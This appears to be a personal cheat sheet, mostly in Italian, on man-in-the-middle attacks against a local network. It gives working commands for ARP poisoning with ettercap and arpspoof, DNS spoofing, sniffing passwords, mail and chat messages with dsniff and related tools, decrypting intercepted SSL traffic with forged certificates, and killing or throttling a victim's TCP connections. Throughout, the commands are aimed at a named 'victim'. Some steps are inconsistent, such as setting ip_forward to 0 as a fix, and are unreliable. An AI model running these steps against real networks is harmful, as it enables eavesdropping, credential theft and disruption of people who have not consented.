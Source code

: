 
#  man in the middle(mitm) sniffing


## sysctl

To displays all the output(parameters):
`sysctl -a`

To do changes with the appropriate command:
`sudo sysctl -w parameter=value`

For example:
`sudo sysctl -w net.ipv4.ip_forward=1`

To load the value into kernel and become live:
`sysctl -a`





## ettercap - mitm

Non c'è bisogno di abilitare l'inoltro ip ma basta semplicemente eseguire il comando
dopo la config di /etc/etter.conf

`sudo ettercap -Tqi wlan0 -M arp:remote /VICTIM/ /GW/`

ATTENZIONE: Non provare SSL utilizando il bridged mode in quanto non funziona.
ATTENZIONE: Non usare ip_forward=1 in quanto si rischierebbe di inviare duplicati(Vedere la descrizione di man ettercap per ulterior dettagli).
ATTENZIONE: Assicurarsi di avere installato iptables altrimenti non funzionerebbe il forward.

To check if ARP poison is working well try:
`arp -a`



## ettercap - dns_spoof

Modifica il file /usr/share/ettercap/etter.dns inserendo una regola del tipo:
* A 127.0.0.1 per inoltrare tutti i dns al localhost
Attivare il plugin dns_spoof


## ettercap - remote_browser

Serve per conoscere le pagine visitate dall'utente.
Specificare il browser da usare su /etc/etter.conf



## man in the middle (mitm)

Per abilitare l'inoltro dei pacchetti fare in questo modo (da non utilizzare con il comando fragrouter):
`echo 1 > /proc/sys/net/ipv4/ip-forward`

Se non funziona provare:
`sudo sysctl -w net.ipv4.ip_forward=0`


La prima operazione da fare è il comando arpspoof. Consideriamo i seguenti IP: IP_VICTIM è l'IP della vittima e IP_SERVER.
I comandi da eseguire sono:
`arpspoof -t IP_VICTIM IP_SERVER`
 e 
`arpspoof -t IP_SERVER IP_VICTIM`


La successiva operazione è fare in modo che il mitm possa inoltrare effettivamente i pacchetti in transito:
`fragrouter -B1`




## sniffing

Questa è un operazione che va fatta una volta che il pc è in mitm!!
Il comando capace di sniffare user e pass di moltissimi protocolli è:
`dsniff -i eth0 -md`

L'opzione -m consente il controllo automatico dei protocolli e -d è il debugging mode.
Un'altro comando che spesso viene adoperato è:
`ngrep host IP`

Dove IP è l'indirizzo IP della vittima.

Gli comandi di sniffing sono:
Sniffa mail e li pone in output ben formattati:
`mailsnarf`

Sniffa URL:
`urlsnarf`

Sniffa messaggi su IRC, MSN etc:
`msgsnarf`

Sniffa file su NFS:
`filesnarf`

Manda gli URL sniffati al proprio browser locale:
`webspy`




## SSL mitm

Questa è un operazione che va fatta una volta che il pc è in mitm!!
Questa procedura consente di ottenere falsificare i certificati che vengono trasmessi via HTTP, POP, SMTP o qualunque altro protocollo che si poggia sul SSL.
La prima operazione è redirezionare il traffico HTTP/HTTPS tramite:
`dnsspoof`

Successivamente occorre falsificare il certificato tramite il comando:
`webmitm`

A questo punto il comando webmitm restituirà il falso certificato (webmitm.crt) che potrà essere utilizzato per decifrare il traffico SSL sniffato tramite wireshark (ethereal) e posto in un file.
Quindi:
`ssldump -r ozzy -k webmitm.crt -d > outozzy`

con -r specifichiamo il dumpfile, -k è la chiave, -d indica di decifrare i dati
Rimane solo da interpretare i dati ormai decifrati:
`cat outozzy | grep ??`

In grep si può mettere qualcosa che possa filtrare i dati in modo da ottenere più facilmente i dati sensibili. Per esempio si può inserire il nome di qualche tag html vicino ai dati sensibili.




## kill and slow down connection with tcpkill and tcpnice

Se vogliamo chiudere le connessioni TCP su porta 22 (SSH):
`tcpkill -i eth0 tcp port 22`

If you want to kill all the connections but not for a pecified host:
`sudo tcpkill -i wlan0 -9 not host 192.168.1.109`

Se vogliamo rallentare una connessione TCP iniettando pacchetti che avvisano di una finestra di ricezione piccola o pacchetti ICMP:
`tcpnice -i eth0 tcp port 22`

To slow down all the connection but not for a specified host:
`sudo tcpnice -i wlan0 not host 192.168.1.109`




